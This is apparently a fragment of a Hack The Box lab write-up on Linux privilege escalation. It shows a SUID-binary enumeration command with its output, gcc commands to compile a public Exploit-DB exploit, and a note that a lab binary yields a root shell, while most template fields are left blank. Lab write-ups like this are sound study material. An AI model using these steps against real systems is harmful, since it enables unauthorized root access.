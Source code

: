 
find / -perm -u=s -type f 2>/dev/null

/var/htb/bin/emergency
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/bin/at
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/pkexec
/usr/bin/newgrp
/usr/bin/traceroute6.iputils
/usr/bin/gpasswd
/usr/bin/sudo
/usr/bin/mtr
/usr/sbin/uuidd
/usr/sbin/pppd
/bin/ping
/bin/ping6
/bin/su
/bin/fusermount
/bin/mount
/bin/umount


/var/htb/bin/emergency


### Privilege escalation

*Additional Priv Esc info*

**Vulnerability Exploited:**

trying https://www.exploit-db.com/exploits/42276

```bash
gcc -o exploit 42276.c
# Or if trouble with ld
gcc -B /usr/bin -o exploit 42276.c
```

/var/htb/bin/emergency will pop a root shell

**Vulnerability Explanation:**

**Vulnerability Fix:**

**Severity:**

**Exploit Code:**

### Goodies

#### Hashes
